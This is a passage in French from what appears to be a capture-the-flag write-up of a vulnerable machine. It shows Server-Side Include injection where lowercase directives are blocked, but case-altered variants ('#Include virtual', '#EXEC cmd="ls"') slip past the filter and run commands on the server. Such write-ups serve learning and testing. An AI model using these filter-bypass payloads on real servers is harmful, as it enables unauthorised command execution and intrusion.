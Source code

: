 La dernière ligne nous retourne le path */var/www/html/convert.me/public\_html/receipt.shtml*  

En revanche les directives qui nous intéressent vraiment ne marchent pas :  

```html
<!--#include virtual="ssi.shtml"-->
```

mais après un peu d'acharnement on découvre que la suivante fonctionne :  

```html
<!--#Include virtual="ssi.shtml"-->
```

De même exec en minuscule échoue :  

```html
<!--#exec cmd="ls" -->
```

mais tout en majuscules cela fonctionne :  

```html
<!--#EXEC cmd="ls" --> 
```

![SSI injenction result](https://raw.githubusercontent.com/devl00p/blog/master/images/hastevm.png)  

A Python was good
-----------------
